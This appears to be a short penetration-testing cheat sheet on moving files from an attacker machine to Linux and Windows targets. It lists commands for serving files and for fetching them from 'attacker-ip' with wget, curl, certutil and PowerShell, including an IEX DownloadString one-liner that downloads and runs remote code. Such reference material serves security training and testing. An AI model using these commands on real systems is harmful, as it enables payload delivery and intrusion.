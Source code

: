 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Web

### Linux Attacker

Open a web server on the attacking machine so that the file to be transferred can be downloaded via the target machine.

```bash
# Using Apache:
service apache2 start (/var/www/html/file.exe)

# Using Python 2:
python2 -m SimpleHTTPServer 80

# Using Python 3:
python3 -m http.server 80
```

### Linux Target

Download the file that is on the attacking machine.

```bash
# Using Wget:
wget http://attacker-ip/file.exe -O /tmp/file.exe

# Using Curl:
curl http://attacker-ip/file.exe -o file.exe
```

### Windows Target

Download the file that is on the attacking machine.

```powershell
# Using the Certutil utility:
certutil.exe -urlcache -f http://attacker-ip/file.exe file.exe

# Using PowerShell + Wget:
powershell.exe wget http://attacker-ip/file.exe -OutFile file.exe

# Using PowerShell:
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://attacker-ip/file.exe','file.exe')

# Using PowerShell to send a command in the file to be executed:
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://attacker-ip/poc.txt')
```
